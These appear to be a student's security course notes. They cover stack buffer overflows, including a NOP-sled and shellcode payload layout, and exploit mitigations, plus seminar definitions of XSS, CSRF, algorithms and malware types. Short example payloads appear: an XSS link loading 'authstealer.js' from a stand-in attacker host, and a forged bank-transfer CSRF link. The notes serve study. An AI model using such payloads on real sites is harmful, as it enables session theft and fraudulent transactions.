

# Lecture
## Executable and Linking Format (ELF)

* Collection of headers, segments and sections
* Representation of code and data
* Stored on disk and used to create and start process

## Stack (used for?)

* Lightweight data structure
* Provides functions with static memory (stack frames)
* Not contained within the binary
* Initialized during process startup
* Located at higher end of memory and growing towards lower end
* Maximize space in between

## Stack frame (how can it be used?)

* Contains info about usable memory
* Function's start and end manage each stack-frame
* esp register keeps track of topmost element
* ebp register is used as a reference to point to function arguments and local var
* push instruction to add word-aligned elements
* pop instruction to remove word-aligned elements

## Calling convention (used for?)

- Arg passed via stack
- eip reg passed via stack by CPU
- Function code pushes esp,ebp and other reg
- Results passed back via eax 

## Function call

- khi tạo 1 function thì sẽ add các cái var trong function đó theo stack, theo thứ tự là function->para->return->base  pointer(ebp)->other reg->local var...
- còn trong main sẽ đc fill theo heap

## File execute

- Heap is used for global or extern variable, dynamic variable
- Stack for local variable while calling function

## hack ?

- Attacker controls what is written into buffer
- offset of return with buffer calculatable
- buffer filled with garbage before return
- return points to a callable memory location
- application might crash afterwards
- 
- 450 nop-sled (a sequence of [NOP](https://en.wikipedia.org/wiki/NOP_(code)) (no-operation) instructions: is no-operation instruction, the attacker use nop-sled sequence to point to desirable memory address without knowing the exactly address. By pointing to randomly address which contains nop-sled sequence, it will slide through memory space until  desired destination whenever the program [branches](https://en.wikipedia.org/wiki/Branch_instruction) to a [memory address](https://en.wikipedia.org/wiki/Memory_address) anywhere on the slide.)
- 33 byte shellcode: is a injection code to call the bash shell
- 37 junk data
- 4 new return address into nop-sled

What is buffer overflow

what is stack-based buffer overflow

what is a return add and when it is used

what is a payload and how it is used

what is nop-sled and how it is used

## Mitigation

- Randomize specific memory sections at runtime
  - Candidates sections are: .text,.data,...
  - Offsets within sections do not change
  - Sections have to opt-in
  - Compilerflags to support it
  - Drawback: Only randomize sections. Offsets within section are maintained. Thus leakage of specific pointers can defeat ASLR
  - 32 bits total add
  - Page alignment:12 bits
  - User space
  - mem partition 1 2 3
  - redunction: stack stored in partition one or 2, so effectively 1 bit to guess
  - ->32 - 12 - 1 = 19 bits to guess
- Non excutable: specific segments can be marked as NX
  - Interrupts triggered if such a sections gets executed - > segmentaion fault
  - cpu has to support it
  - compilerflags to support it
  - Draw: do not protected against return oriented approaches
- Stack canaries
  - Magic values placed on stack before stack var
  - Changes with each process invocation
  - Can be checked when leaving functions to prove stack integrity
  - Compilerflags to support it
  - Draw: can potentially leaked, guessed or brute force
- What to do: 
  - use mitigation
  - safe function
  - bounds checking
  - memory-safe programming lang (rust)
  - utilize code analysis (static, dynamic, fuzzing)
  - use modern cpu extension (intel memory protection extensions, control flow enhancement technology)
  
  
# Seminar
- Task1: Define terms and give example:
  - Stored XSS:
    - A persistent XSS, more damage than reflected, the malicious script is injected directly into vulnerable web app, and the script is execute when ever user visit website
    - Directly inject script to html file: `.`
  - Reflected XSS:
    - a non-persistent attacks, attacker embedded  malicious script, when user click on the link it will executed 
    - E.g: Inject java script to html tag like: `<a url=http://forum.com?q=news<\script%20src=”http://hackersite.com/authstealer.js”/>`
  - DOM-based XSS:
    - Client side attack, the attack will send the page content instead of server with the html file is injected with malicious code 
    - E.g: attacker can inject an addition box in to these form 
		
		
		By change message=Please fill in the form to `message=<label>Gender</label>
<select class = "form-control" onchange="java_script_:show()"><option value="Male">Male</option><option value="Female">Female</option></select>
`
		
  - CSRF:
    - Using authenticated session cookie of user to establish unwanted operation forge the normal user
    - E.g: a attacker's website implement `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>` to take advantage of if the user already login to bank.com and the cookie still store the authentication token
- Task 2: define term:
  - Evolutionary algorithm:
  
	The mechanisms that mimic the biological evolution with reproduction, mutation and recombination factor to find the stronger solution and eliminate the weakest solution
  - Local search:
  
	The algorithm is to search from solution space by moving around to find the optimal cost or time bound is elapsed
  - Vertex cover:
  
	Is the set of vertex that can cover all the edge, which mean every edge can be one of directly edge of the node in vertex cover. The minimum vertex cover is the minimum vertex cover that we can create
- Task 3: define term:
  - Companion Virus:
  
	Is a companion virus is a computer virus that stores itself in file named similar to other program but with different extension. When user execute the program, it will run before the true program, hence the user is not recognized 
  - Rootkit:
  
	Is the malware that design to give a root access while actively hiding its presence
  - Back door:
  
	Refer to any method that anybody can able to get around a normal security measure and gain the root access to the system
